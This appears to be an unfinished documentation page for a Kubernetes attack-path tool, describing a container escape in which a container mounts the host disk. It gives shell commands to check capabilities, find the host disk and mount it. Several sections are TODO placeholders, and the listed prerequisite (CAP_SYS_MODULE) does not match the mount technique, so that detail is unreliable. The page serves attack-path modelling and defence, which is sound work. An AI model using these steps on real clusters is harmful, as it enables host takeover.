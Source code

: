 # CE_PRIV_MOUNT

Mount the host disk and gain access to the host via arbitrary filesystem write

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

TODO TODO

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Find the disks visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```
Mount the disks into the container:

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

Now TODO TODO

## OPSEC Considerations

TODO TODO

## Defences

+ Implement least privilege
 +Avoid running privileged pods.

### Monitoring

TODO TODO

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

[EscapePrivMount](../../pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

